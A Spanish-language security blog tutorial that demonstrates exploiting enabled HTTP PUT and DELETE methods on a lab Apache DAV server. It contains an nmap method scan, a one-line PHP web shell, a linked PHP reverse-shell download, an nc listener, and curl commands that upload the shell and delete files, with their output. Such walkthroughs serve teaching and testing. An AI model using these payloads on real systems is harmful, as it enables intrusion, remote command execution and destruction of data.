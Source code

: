 ```yaml
---
date: 2022-02-27T17:23:12.000Z
layout: post
comments: true
title: Explotación del método PUT, DELETE y CONNECT
subtitle: 'En HTTP'
description: >-
image: >-
  http://imgfz.com/i/0iKnB5f.gif
optimized_image: >-
  http://imgfz.com/i/0iKnB5f.gif
category: ciberseguridad
tags:
  - burpsuite
  - vulnerabilidad
  - http
  - exploit
  - ataque
  - Hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


>Antes de iniciar se recomienda sobre las imágenes realizar clic derecho en abir imagen en una pestaña nueva para verla de mejor forma. 

Para entender este tipo de explotación es necesario conocer que realiza cada uno de estos métodos que lo hacen peligrosos si están habilitados:

* PUT: Puede ser utilizado para introducir archivos maliciosos, con el fin de obtener incluso ejecución remota de comandos o también subir hipervínculos que redirijan a las victimas a sitios web fraudulentos.
* DELETE: Puede ser utilizado para eliminar archivos importantes dentro del servidor web. Lo que provocaria una denegación de servicios (DoS) o perdida de información importante.
* CONNECT: Puede emplearse para tunelizar el tráfico "peer to peer" (P2P) sobre el tráfico HTTP. El atacante se podría aprovechar de esto ocultando el contenido del tráfico por el cual actuaría bajo un usuario autorizado, con el fin de eludir el firewall o autenticaciones.

Burp Suite es una herramienta en dónde cada solicitud HTTP realizada por su navegador se intercepta por un proxy previamente configurado. Con esto se pueden llegar a ver las peticiones que se realizan sobre el servidor web.

Comenzamos realizando un nmap para detectar los métodos disponibles, aunque igualmente se puede realizar con burp suite con OPTIONS:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nmap -p80 --script http-methods 10.1.1.9
Nmap scan report for 10.1.1.9
Host is up (0.00040s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET POST HEAD CONNECT PUT DELETE OPTIONS

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

Como se verifica que tenemos habilitado PUT, procedemos a interceptar con burp suite la página web y realizamos un test inicial con un simple archivo TXT para verificar que la vulnerabilidad se encuentre presente:

![archivotxt](http://imgfz.com/i/XrqLdZ7.png)

![davtxt](http://imgfz.com/i/7BshVRK.png)

Ahora se verifica el método DELETE:

![deletetxt](http://imgfz.com/i/XM596kf.png)

Como ya se comprobó que todo está funcional, procedemos a probar ejecución de comandos con la siguiente linea en php:

```php
<?php echo system($_REQUEST['cmd']); ?>
```

Esto se realiza de la siguiente forma:

![cmdphp](http://imgfz.com/i/Ot40GFm.png)

Como se subió de forma exitosa lo procedemos a abrir y ejecutar comandos:

![ver](http://imgfz.com/i/Y8ArG7f.png)

![cmd](http://imgfz.com/i/dgHaz34.png)

Funciona perfectamente, ahora como ya podemos realizar todo esto se intentará subir un [php malicioso](http://www.mediafire.com/file/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz/file) para que nos devuelva un terminal interactivo por ```nc```:

Para esto nos ponemos a la escucha por el puerto que uno quiera:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nc -nlvp 443
```
Ahora procedemos a editar el .php cambiando los parámetros por nuestra IP y puerto:

![edit](http://imgfz.com/i/v3VozZH.png)

Una vez realizado esto lo subiremos por medio de curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl http://10.1.1.9/dav/ --upload-file ./php-reverse-shell.php -v     
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> PUT /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 5489
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Date: Sun, 27 Feb 2022 21:34:13 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Location: http://10.1.1.9/dav/php-reverse-shell.php
< Content-Length: 279
< Content-Type: text/html; charset=ISO-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /dav/php-reverse-shell.php has been created.</p>
<hr />
<address>Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.1.1.9 Port 80</address>
</body></html>
* Connection #0 to host 10.1.1.9 left intact
```
Como se realizó de forma exitosa lo procedemos a ejecutar:

![revphp](http://imgfz.com/i/1NX9cjf.png)
![execphp](http://imgfz.com/i/lNVRG4a.png)
![ncphp](http://imgfz.com/i/TpBctnh.png)

Y funcionó perfectamente. Ahora borraremos el .php con curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl -X DELETE http://10.1.1.9/dav/php-reverse-shell.php -v          
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> DELETE /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Date: Sun, 27 Feb 2022 21:38:55 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Content-Length: 0
< Content-Type: application/x-httpd-php
< 
* Connection #0 to host 10.1.1.9 left intact
```
![delrevphp](http://imgfz.com/i/q0rVNAG.png)

Se borra correctamente. Y se demuestra la vulnerabilidad presente. 



